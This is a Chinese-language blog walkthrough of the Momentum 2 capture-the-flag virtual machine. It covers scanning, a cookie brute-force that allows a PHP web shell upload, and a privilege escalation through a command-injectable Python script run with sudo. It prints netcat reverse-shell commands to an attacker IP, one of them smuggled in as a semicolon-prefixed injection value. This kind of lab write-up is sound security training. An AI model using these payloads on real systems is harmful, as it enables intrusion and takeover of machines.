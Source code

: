 ```yaml
---
layout: post
title: Momentum 2
subtitle: Momentum 2
date: 2025-07-19 15:53
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```

### 信息收集

扫描IP 发现 `192.168.163.131`

![image.png](https://img.ghostliner.top/e6Tm65.png)

扫描端口，开发80、22端口

![image.png](https://img.ghostliner.top/urtsRx.png)

扫描目录

![image.png](https://img.ghostliner.top/vh5Uev.png)

查看站点，`/manual`发现文件上传

![image.png](https://img.ghostliner.top/Sk3BDv.png)

相关js代码，向`ajax.php`发送数据，返回1代表成功

![image.png](https://img.ghostliner.top/18Grb1.png)

目录扫描发现 `ajax.php.bak`文件

![image.png](https://img.ghostliner.top/0xK8l9.png)

根据代码，需要添加cookie，且最后一位追加大写字母，设置参数 `secure`值为 `val1d`，则可以上传php文件

```
admin=&G6u@B6uDXMq&Ms
```

bp测试，发现为字符 `R`

![image.png](https://img.ghostliner.top/3WGt0N.png)


![image.png](https://img.ghostliner.top/qx4Ncq.png)

成功上传 `shell.php`文件，7kbscan扫描目录发现 `/owls/`

![image.png](https://img.ghostliner.top/M3SlE8.png)

确定脚本位置： http://192.168.163.131/owls/shell.php ，使用蚁剑连接

### 反弹shell

```shell
nc -nv 192.168.163.132 -e /bin/bash
```

![image.png](https://img.ghostliner.top/kOUeD9.png)

查看 `/etc/passwd`发现用户`athena`

![image.png](https://img.ghostliner.top/ZloKSE.png)

查看home目录，发现多个文本文件，一个脚本文件

![image.png](https://img.ghostliner.top/JvFQqX.png)

获取第一个flag

![image.png](https://img.ghostliner.top/1gYtoc.png)

### 提权

获取密码：`myvulnerableapp[Asterisk]` Asterisk为星号

![image.png](https://img.ghostliner.top/uavPEh.png)

发现提示，要执行 `cookie-gen.py`脚本

![image.png](https://img.ghostliner.top/qdcFM1.png)

查看脚本内容

```python title:cookie-gen.py
import random
import os
import subprocess

print('~ Random Cookie Generation ~')
print('[!] for security reasons we keep logs about cookie seeds.')
chars = '@#$ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefgh'

seed = input("Enter the seed : ")
random.seed = seed

cookie = ''
for c in range(20):
    cookie += random.choice(chars)

print(cookie)

cmd = "echo %s >> log.txt" % seed
subprocess.Popen(cmd, shell=True)
```

最后一行命令会启动一个shell进程来解析cmd字符串，cmd字符串中包含了用户输入的内容

使用密码：`myvulnerableapp*`，登录 `athena`成功，发现可用`/usr/bin/python3 /home/team-tasks/cookie-gen.py`提权

![image.png](https://img.ghostliner.top/43yOpc.png)

```shell
sudo /usr/bin/python3 /home/team-tasks/cookie-gen.py
# 输入反弹shell代码
;nc -nv 192.168.163.132 5555 -e /bin/bash
```

反弹成功

![image.png](https://img.ghostliner.top/eOXzYY.png)

提权成功

![image.png](https://img.ghostliner.top/CXtpxk.png)
